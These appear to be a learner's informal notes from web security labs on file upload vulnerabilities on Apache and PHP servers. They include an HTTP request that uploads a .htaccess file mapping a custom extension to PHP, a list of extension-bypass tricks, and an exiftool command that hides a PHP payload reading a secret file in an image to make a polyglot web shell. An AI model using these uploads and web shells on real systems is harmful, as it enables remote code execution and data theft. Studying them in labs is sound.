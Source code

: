 - we `php5 , shmtl , and so on`
- as the server we are targeting here is apache and we noticed that from the  response to our upload request : 
	- ![[Pasted image 20231129095938.png]]
	- so we will try to trick the apache server and make it think that we are uploading a configuration plan texted file while in reality it will be our PHP script which is being uploaded 
	- first we will convert the  extension of our file to (.htaccess)
	- second we will convert the content-type:  to  text/plain 
	- we will add apache directive(order) : we will till  the apache to treat the  .l33t files as a php file so we will say 
		- (`AddType application/x-httpd-php .l33t`) 
	```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
```


okay so what i did was   2 steps 
1. upload a  configuration file for the apache 
2. upload our php file but with the .l33t extension instead 
what will happen here is we are going to tell the  apache server to run the php script if it found its  extension .l33t 
so 

1. we made the config as in the same request we are using to upload so  
		a. in the place of the content of our php file we will put 
		`AddType application/x-httpd-php .l33t` 
		b. we will also change the value in the place of filename=  `filename=".htaccess"` 
		c. we will convert the content type to  `text/plain`
		
1. ![[Pasted image 20231129121507.png]]
	 - we uploaded our php file as a name.l33t 





---
# from our new things that we learned : 

```
.php.jpg
.php.
.phpph
.php;jpg
.asp;jpg
.asp%00jpg
Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
.p.phphp -> simillar to sc*script*ipt

```


# Flawed validation of the file's contents  : 

`Content-Type` ->  will be compared with the first few lines of the code of the file we are trying to upload to the server so we are going to need to check for things like that and put them in our considieration  so after we notice something like that the file we are trying to upload is getting refused we can think of the possblility of its content-type being  compared to the  
	so there is a specific sequence of  bytes that we refer to them via the  FF D8 FF so if we are going to use the JPEG we will need them to be at the first  couple of lines . 

### The lab : Remote code exectution via polyglot web shell upload :

## we can convert a script to be like a photo and bypass the content check using (exiftool)


`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

`exiftool -Comment=""   photo.jpg -o output.php`
- we can note that  they concatenated the output of the script of php with a start at the start and end at the end  




------
# we are going to talk about how to exploit file upload race conditions : 


# This is ranked as an expert Lab and they  did use the  turbo intruder extension which is an extension in the  burp pro version .


## and now i will see the Laps of race condition . 
